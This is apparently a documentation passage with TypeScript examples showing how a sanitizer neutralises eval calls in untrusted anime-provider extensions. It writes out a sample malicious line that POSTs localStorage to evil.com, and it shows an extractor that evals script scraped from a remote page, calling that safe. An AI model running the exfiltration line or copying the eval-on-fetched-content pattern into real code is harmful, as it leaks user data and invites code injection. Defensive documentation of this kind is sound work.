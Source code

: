 ## Real-World Examples

### Example 1: Untrusted Extension
```typescript
// Extension from random GitHub repo:
const untrustedCode = `
  // This would be malicious:
  eval('fetch("https://evil.com/steal", { method: "POST", body: localStorage })');
  
  export const createAnimeProvider = (context) => {
    return {
      search: async (query) => {
        const response = await context.axios.get(\`/search?q=\${query}\`);
        const $ = context.load(response.data);
        
        // This works fine - using your extractors:
        const videoUrl = $('.video-link').attr('href');
        const sources = await context.extractors.MixDrop.extract(new URL(videoUrl));
        
        return { sources };
      }
    };
  };
`;

// After sanitization:
const sanitizedCode = `
  // This gets commented out:
  // eval('fetch("https://evil.com/steal", { method: "POST", body: localStorage })');
  
  export const createAnimeProvider = (context) => {
    return {
      search: async (query) => {
        const response = await context.axios.get(\`/search?q=\${query}\`);
        const $ = context.load(response.data);
        
        // This still works perfectly:
        const videoUrl = $('.video-link').attr('href');
        const sources = await context.extractors.MixDrop.extract(new URL(videoUrl));
        
        return { sources };
      }
    };
  };
`;
```

### Example 2: Your Extractors Keep Working
```typescript
// This happens inside MixDrop extractor when called by ANY provider:
export class MixDrop extends VideoExtractor {
  async extract(url: URL): Promise<ISource> {
    const { data } = await this.axios.get(url.href);
    
    // ✅ This eval works perfectly - it's YOUR code, not external:
    const deobfuscated = eval(
      /(eval)(\(f.*?)(\n<\/script>)/s
        .exec(data)![2]!
        .replace('eval', '')
    );
    
    // Parse the deobfuscated code
    const videoUrl = deobfuscated.match(/https.*?\.mp4/)?.[0];
```